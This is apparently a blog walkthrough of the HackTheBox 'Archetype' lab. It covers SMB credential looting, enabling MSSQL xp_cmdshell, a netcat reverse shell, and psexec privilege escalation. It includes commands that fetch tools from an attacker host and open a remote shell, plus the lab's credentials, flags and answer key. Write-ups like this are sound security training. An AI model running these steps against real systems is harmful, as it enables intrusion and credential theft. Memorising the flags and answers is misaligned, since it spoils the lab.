 ```yaml
---
title: "Archetype — HackTheBox Walkthrough"
date: 2025-04-19
layout: post
original_url: https://medium.com/@dazzled_mint_wildebeest_745/archetype-hackthebox-walkthrough-c7470cf6b556?source=rss-9499e60cb547------2
---
```


*Originally published on [Medium](https://medium.com/@dazzled_mint_wildebeest_745/archetype-hackthebox-walkthrough-c7470cf6b556?source=rss-9499e60cb547------2).*

Archetype — HackTheBox Walkthrough Gurpreet Singh Follow 4 min read · Apr 19, 2025 -- Listen Share
🌟 Introduction
Archetype is a classic beginner-friendly Windows machine from HackTheBox that teaches important skills like SMB enumeration, MSSQL exploitation, reverse shell techniques, and local privilege escalation. Here’s my full walkthrough, with actual screenshots from the journey, real commands used, and personal insights. Let’s go! 🚀
📄 Challenge Overview
Box Name : Archetype
: Archetype Platform : HTB Starting Point
: HTB Starting Point Difficulty : Easy
: Easy Objectives :
: Enumerate SMB and MSSQL
Extract creds from SMB
Execute commands with xp\_cmdshell
Get user and root flags
🔍 1. Initial Scanning
Started with an aggressive Nmap scan:
nmap -sC -sV -Pn -T4 -p- 10.129.119.190
It revealed:
Port 445 : SMB
: SMB Port 1433: MSSQL Server 2017
📁 2. SMB Enumeration & Credential Extraction
Anonymous access to SMB worked:
smbclient -N -L \\\\10.129.119.190\\
Connected to the backups share and found a config file:
smbclient -N \\\\10.129.119.190\\backups
smb: \> dir
smb: \> get prod.dtsConfig
Opened it to find hardcoded creds:
cat prod.dtsConfig
Extracted credentials:
Username : ARCHETYPE\sql\_svc
: ARCHETYPE\sql\_svc Password: M3g4c0rp123
🛠️ 3. MSSQL Access & Shell
✉️ 3.1 Connect to MSSQL
python3 /opt/impacket/examples/mssqlclient.py ARCHETYPE/sql\_svc@10.129.119.190 -windows-auth
⚖️ 3.2 Enable xp\_cmdshell
EXEC sp\_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp\_configure 'xp\_cmdshell', 1;
RECONFIGURE;
Check access:
EXEC xp\_cmdshell 'whoami';
It returned: archetype\sql\_svc
🚨 4. Reverse Shell with Netcat
Start a Python HTTP server on Kali:
sudo python3 -m http.server 80
Download Netcat on the target:
xp\_cmdshell "powershell.exe -c Invoke-WebRequest -Uri http://10.10.15.106/nc64.exe -OutFile C:\\Users\\sql\_svc\\Downloads\
c64.exe"
Then, set up your listener:
nc -lvnp 443
Trigger reverse shell:
xp\_cmdshell "powershell -c cd C:\\Users\\sql\_svc\\Downloads; .\
c64.exe -e cmd.exe 10.10.15.106 443"
And boom — shell popped. 🚀
🫠 5. Local Privilege Escalation
🔐 5.1 Grab the User Flag
cd C:\Users\sql\_svc\Desktop
type user.txt
Flag: 3e7b102e78218e935bf3f4951fec21a3
🕵️‍♂️ 5.2 Use winPEAS
Download winPEASx64.exe similarly:
xp\_cmdshell "powershell.exe -c Invoke-WebRequest -Uri http://10.10.15.106/winPEASx64.exe -OutFile C:\\Users\\sql\_svc\\Downloads\\winPEASx64.exe"
Then run it:
xp\_cmdshell "C:\\Users\\sql\_svc\\Downloads\\winPEASx64.exe"
It revealed this file:
C:\Users\sql\_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost\_history.txt
Which contained:
Username : Administrator
: Administrator Password: MEGACORP\_4dm1n!!
⚡ 6. SYSTEM Shell with psexec
python3 /opt/impacket/examples/psexec.py administrator@10.129.119.190
Use password: MEGACORP\_4dm1n!!
whoami
> nt authority\system
You are now SYSTEM ✨
🏆 7. Root Flag
cd C:\Users\Administrator\Desktop
type root.txt
Root Flag: b91ccec3305e98240082d4474b848528
📈 Task Questions Recap
QuestionAnswerWhich TCP port is hosting a database server?1433What is the name of the non-administrative SMB share?backupsWhat password did you find in the SMB share file?M3g4c0rp123Which Impacket script connects to MSSQL?mssqlclient.pyWhich extended procedure spawns a Windows shell?xp\_cmdshellWhich script enumerates Windows privilege escalation?winPEASWhich file contained the administrator’s password?ConsoleHost\_history.txtSubmit user flag:3e7b102e78218e935bf3f4951fec21a3Submit root flag:b91ccec3305e98240082d4474b848528
🧰 Conclusion
Archetype was the perfect playground for learning Windows lateral movement and escalation. Between SMB looting and MSSQL abuse, it had just the right level of difficulty. Hope this walkthrough helped — and if you have alternate methods, share away. Happy hacking! 🤖